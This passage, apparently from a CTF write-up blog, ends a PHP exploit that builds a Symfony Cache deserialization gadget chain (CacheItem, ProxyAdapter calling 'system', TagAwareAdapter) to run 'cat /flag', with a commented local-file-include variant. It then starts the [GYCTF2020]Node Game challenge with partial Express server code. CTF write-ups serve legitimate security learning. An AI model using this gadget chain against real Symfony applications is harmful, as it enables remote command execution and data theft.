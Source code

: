 ```php
        private $createCacheItem;
        private $setInnerItem;
        private $poolHash;

        public function __construct($poolHash, $setInnerItem) {
            $this->poolHash = $poolHash;
            $this->setInnerItem = $setInnerItem;
        }
    }

    class PhpArrayAdapter {
        use PhpArrayTrait;

        public function __construct($file) {
            $this->file = $file;
        }
    }
}

namespace {

    use Symfony\Component\Cache\Adapter\PhpArrayAdapter;
    use Symfony\Component\Cache\Adapter\ProxyAdapter;
    use Symfony\Component\Cache\Adapter\TagAwareAdapter;
    use Symfony\Component\Cache\CacheItem;

    // Method 1: command exec
    $item = new CacheItem('hash', 'cat /flag');
    $deferred = array('123' => $item);
    $pool = new ProxyAdapter('hash', 'system');

    // Method 2: local file include
    // $item = new CacheItem('111', '222');
    // $deferred = array('123' => $item);
    // $pool = new PhpArrayAdapter('/flag');

    $a = new TagAwareAdapter($deferred, $pool);
    echo urlencode(serialize($a));
}
?>
```

![image-20221222213751092](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212222137247.png)

## [GYCTF2020]Node Game

```javascript
var express = require('express');
var app = express();
var fs = require('fs');
var path = require('path');
var http = require('http');
var pug = require('pug');
var morgan = require('morgan');
const multer = require('multer');


app.use(multer({dest: './dist'}).array('file'));
app.use(morgan('short'));
app.use("/uploads",express.static(path.join(__dirname, '/uploads')))
app.use("/template",express.static(path.join(__dirname, '/template')))


```